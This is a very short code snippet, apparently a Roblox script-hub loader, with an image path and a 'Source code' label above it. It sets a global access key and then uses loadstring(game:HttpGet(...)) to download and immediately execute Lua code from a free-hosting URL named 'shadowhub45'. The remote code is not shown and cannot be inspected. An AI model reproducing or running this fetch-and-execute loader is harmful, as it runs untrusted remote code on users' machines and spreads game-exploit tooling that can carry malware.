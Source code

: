 _G.Key = "M1xs194"
loadstring(game:HttpGet("https://shadowhub45.000webhostapp.com/nada%20de%20a.........%22"))()
